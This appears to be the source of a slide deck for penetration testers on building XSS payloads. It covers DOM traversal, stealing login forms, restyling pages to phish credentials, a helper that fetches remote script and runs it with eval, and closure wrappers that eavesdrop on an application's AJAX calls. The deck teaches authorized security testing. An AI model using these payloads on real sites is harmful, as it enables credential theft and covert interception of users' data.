


build-lists: true

# Weaponize JS
## Making the most of your XSS opportunities



^ This presentation is written primarily for pen testers with little dev experience.
  I hope it provides a few recipes you can use to up you XSS game.

---

# About Me
## Mic Whitehorn-Gillam
 - Senior Security Consultant @ Secure Ideas
 - Long-time software developer
 - Web-app Security enthusiast
 - Recently moved into security as primary job
 -  mgillam on Github
 - @mic_wg on twitter

^ Wrote my first javascript in 1997 as a teenager
  About 10 Years as a full-stack web developer
  Early in my career I would ask questions like "why are these plain text credentials in the querystring?"

---

# Why not just alert(1)?



^  XSS is under-appreciated because it's client-side
   It doesn't give the client a real understanding of their vulnerability
   A good payload can turn a weak vulnerability into a serious one
   To be effective, it needs to be combined with another attack (i.e. social eng)
   Even a lot of devs don't understand the implications

---

# Where is this going?

- DOM traversal
- Stealing plain old html forms
- Changing the DOM
- Fetching Hosted Resources
- Introducing malicious objects
- Eavesdropping on asynchronous communication

^ The focus will not be on getting it to execute or filter evasion
  It will simply be on some techniques you can use to more subtly manipulate
  javascript on the page.
  A quick note about JQuery - use it if you want to. I won't be including it,
  but that's not because there's anything wrong with it.

---

# DOM traversal

```html
<div>
  <form action="/auth/login.php" method="post">
    <div class="field">
      <label for="login">Username: </label>
      <input type="text" name="login" />
    </div>
    <div class="field">
      <label for="password">Password: </label>
      <input type="password" name="password" />
    </div>
  </form>
</div>
```

^ It's easy when the element you want has an ID attribute.
  When it doesn't sometimes you need to get a handle wherever
  you can and traverse to DOM to get to the one you want.
  This is even more true with newer toolkits like Angular, React/JSX, Knockout,
  Polymer as they use template binding which decreases the usage of IDs versus
  JQuery for example.

---

# DOM traversal

## Getting a handle
```html
<tagname name="name1" id="id1" class="class1 class2" />
```
```js
document.getElementById('id1')
document.getElementsByName('name1')
document.getElementsByTagName('tagname')
document.getElementsByClassName('class2')
document.querySelector()
```

^ getElementById is preferable because it should be unique
  and it returns a reference to a single element.
  It's good to know how to use the others for cases when an ID is not available.
  querySelector is good to know for the real edge cases.

---

# DOM traversal

## Moving up, down, and laterally

```html
  <grandparent>
    <parent>
      <yourElement id="you">
        <child>
          <grandChild />
        </child>
      </yourElement>
    </parent>
    <aunt>
      <cousin><!--get here from you --></cousin>
    </aunt>
  </grandparent>
```

^ ***Example 1***
 parentNode moves up one level, nextElementSibling moves laterally to the next
 sibling, previousElementSibling also exists. There's also a nextSibling and
 previousSibling, but these apply to text nodes as well as elements.
 Children is an array of child elements.
 document.getElementById('you').parentNode.nextElementSibling.children[0]

---

# Stealing HTML forms

## What are the easy options?
 1. Hold the onsubmit event while running an async post, and then submit
 2. Cross-domain POST by updating the action

^ Option 1 is probably the easiest. Fewer moving parts, less likely to go wrong.
  ***Example 2***

---

# Changing the DOM
It can one of the easiest things to do.
Hiding an element?

```js
document.getElementById('id').style.display = 'none';
```

Replacing a whole section of content?

```js
document.getElementById('container').innerHTML = '<h1>New Markup</h1>';
```

^ DOM manipulation is a critical skill for XSS payloads.
  It's how you change what the user sees and interacts with.
  If your vulnerability is on the wrong page, make it look like the right page.
  Show them things they expect to see, except that you control.
  For example, turning a registration page into a login page.

---

# Changing the DOM
What about fetching HTML from another host?

^ ***Example 3 - changing registration page to a login screen***

---

# Fetching Hosted Resources
```js
function fetchjs(scriptUrl, cb)
{
    var xmlhttp = new XMLHttpRequest();
    xmlhttp.open("GET", scriptUrl);
    xmlhttp.onreadystatechange = function()
    {
        if ((xmlhttp.status == 200) && (xmlhttp.readyState == 4))
        {
            eval(xmlhttp.responseText);
            if(typeof cb === 'function') {
              cb();
            }
        }
    };
    xmlhttp.send();
}
```

---

# Injecting Malicious Objects
## A quick primer on closures
```js
//This is a function.
function add(a, b) {
  return a + b;
}

//This is effectively the same function.
var add = function(a, b) {
  return a + b;
}
```


^ Let's start with a quick primer on closures. These are a coding technique
  that isn't a prerequisite for attack, but I prefer it as an elegant way of hiding
  an object from the scope while holding onto a reference to it.

---

# Injecting Malicious Objects
## A quick primer on closures
```js
var addFactory = function() {
  return function(a, b) {
    return a + b;
  };
}
var addOne = addFactory();
```

^ This is the same function again, but returned from another function. What if we
  change it a little bit so that have an addOne function and an addTwo function?

---

# Injecting Malicious Objects
## A quick primer on closures
```js
var mathFactory = function(f) {
  return function(a, b) {
    return f(a, b);
  };
}
var add = mathFactory(function(x, y) { return x + y; });
var subtract = mathFactory(function(x, y) { return x - y; });
```

^ The anonymous function retains a reference to  the "f" variable even after
  mathFactory has completed.

---

# Injecting Malicious Objects
## A quick primer on closures
```js
var doMath = (function(f) {
  return function(a, b) {
    console.log('a = ' + a + ', b = ' + b);
    return f(a, b);
  }
})(function(a, b) {
  return a + b;
});

```

^ This is the closure. The function doing the work gets supplied once, in this
  case doMath returns the same thing as the function being passed in, but we also
  get to act on it. The weird (function())() syntax makes it execute immediately
  and return the result.

---

# Stealing the AJAX
```js
//lets say the target has a function called:
function fetchStuffFromServer(payload,
  successCallback, failCallback) { //...
}
fetchStuffFromServer = (function(f) {
    return function(payload, success, fail) {
      console.log(payload);
      //...
      fetchStuffFromServer(payload, success, fail);
    };
})(fetchStuffFromServer);
```

^ Here we've replaced original function with our function, but held onto a
  reference to the original so that we can use it to make the app generally
  function normally except with some added functionality. The /... comment is
  where I need to modify the success and fail callbacks so that I can eavesdrop
  on them.

---

# Stealing the AJAX
```js
    return function(payload, success, fail) {
      console.log(payload);
      var evilSuccess = function(res) {
        console.log(res);
        success(res);
      };
      var evilFail = function(err) {
        console.log(err);
        fail(err);
      };
      fetchStuffFromServer(payload, evilSuccess, evilFail);
```

^ Each of my evil callbacks replace their counterparts with a version that
logs their responses.

---

# Stealing the AJAX
## But console.log is synchronous
## XHRs are asynchronous

```js
var evilSuccess = function(res) {
  var onResponse = function(){ success(res)};
  asyncLog(res, onResponse);
}
```

^ It's not really that different, you might want to call the real successCallback
  after you're done in your own callback, especially if you want to fiddle the
  payload.

---

# A couple handy resources

 https://developer.mozilla.org/en-US/ - MDN

 http://www.w3schools.com/jsref/ - W3Schools DOM Reference

# Thanks for Coming

^
